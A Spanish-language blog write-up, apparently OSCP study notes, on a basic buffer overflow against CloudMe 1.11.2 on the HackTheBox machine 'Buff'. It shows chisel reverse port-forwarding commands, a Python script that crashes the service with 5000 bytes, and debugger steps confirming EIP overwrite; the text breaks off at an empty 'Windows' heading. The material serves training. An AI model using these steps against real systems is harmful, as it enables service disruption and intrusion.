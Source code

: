```yaml
---
layout: single
title: BufferOverFlow (Basic)
excerpt: "He decidido crearme una pagina para ir publicando todo lo que voy aprendiendo y asi si le es util a alguien mas, puede utilizar el contenido, tambien hare writeups de vez en cuando no tanto con el objetivo de eseñar como resolver dicha maquina sino para repasar como la hize, pero lo dicho que si a alguien le es util, ahi esta."
date: 2021-08-19
classes: wide
header:
  #teaser: /assets/images/htb-writeup-delivery/delivery_logo.png
  #teaser_home_page: true
  #icon: /assets/images/hackthebox.webp
categories:
  - Leaning
tags:  
  - BoF
  - Port Forwarding
---
```


Explicacion del BoF del OSCP tomando como modelo la maquina "Buff" de HTB

## Requirements
* Windows 7 x86 (VM)
* Immunity Debugger
* Mona

## Identificar posibles archivos
* WinPEAS.exe
* En el apartado:

<center><img src="/assets/images/buffer-overflow(basic)/winPEAS.png"></center>

* Analizamos los binarios y buscamos que permisos tiene nuestro usuario (shaun) sobre estos binarios, vemos que tiene "AllAccess" lo que nos llama la atencion y decidimos investigar sonbre ese binario
  * En este caso "CloudMe_1112.exe" es bulnerable a BoF

## Port Forwarding

* En este caso el puerto que utiliza es interno (8888) asi que utilizaremos la heramienta **chisel** para hacer Port Forwarding del puerto 8888
  * <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234
  * <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client \<ip del atacante\>:1234 R:8888:127.0.0.1:8888

## Reconocimiento de vulnerabilidad BoF

* Creamos un **exploit.py** en python3 para comprobar la vulnerabilidad BoF:

```py
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executableExploit():
  payload = b"A" * 5000

  # Establecemos un socket TCP
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((remoteAddress, 8888))
  s.send(payload)

if __name__ == "__main__":
  executableExploit()

```

Al ejecutar el script vemos que hemos provocado un DOS al CloudMe.

* Analizamos que sucede con Immunity Debugger en nuestra maquina windows 7 x86 local

  * Reiniciamos el CloudMe e iniciamos el Immunity Debbuger con el Mona instalado
  * Nos vinculamos al servicio -->1File/attach/CloudMe 
  
_NOTA: Siempre que nos vinculamos se pausa automaticamente, hay que darle a PLAY_

<center><img src="https://s4vinotes.michellopez.org/images/Buff-ID_attach.png"></center>

  * Ejecutamos de nuevo el exploit.py
  * Vemos que se ha sobreescrito tanto el EIP como otros registros

_Explicacion grafica del stack_

<center><img src="https://s4vinotes.michellopez.org/images/Buff-stack_explanation.png"></center>

## Comandos utiles:
Linux:
* `lsof -i:8888` --> listar servicio en el puerto 8888

Windows:

